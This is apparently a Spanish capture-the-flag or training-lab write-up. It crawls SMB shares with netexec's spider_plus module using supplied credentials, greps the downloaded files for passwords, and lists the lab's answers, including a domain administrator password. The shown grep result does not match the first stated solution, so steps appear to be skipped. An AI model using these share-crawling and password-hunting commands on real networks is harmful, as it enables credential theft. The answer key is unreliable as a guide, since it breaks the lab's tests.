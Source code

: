 
Ejecuto desde la máquina Kali atacante:
```
nxc smb 10.129.234.173 -u mendres -p 'Inlanefreight2025!' -M spider_plus -o DOWNLOAD_FLAG=True
```

Conectará al host `10.129.234.173` vía SMB usando las credenciales `mendres:Inlanefreight2025!`, ejecutará el módulo `spider_plus` para **enumerar** las comparticiones/directorios/ficheros y, porque `DOWNLOAD_FLAG=True`, **descargará** (copiará) los ficheros que el módulo decida recoger.

Nos devuelve por salida que el contenido que guardará en:
```
[*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
```

Seguidamente, acudiremos a dicho directorio y realizaremos:
```
grep -ri "passw"
```

Al realizar sobre dicho directorio el comando anterior, buscará en texto plano la palabra "passw" dentro de los ficheros.

Encontramos como salida una ruta interesante llamada: 
```
HR/Public/Onboarding_Docs_485.docx:password=HRrocks2025!
```

Solución: ILovePower333###

**2. As this user, search through the additional shares they have access to and identify the password of a domain administrator. What is it?**

Solución: Str0ng_Adm1nistrat0r_P@ssword_2025!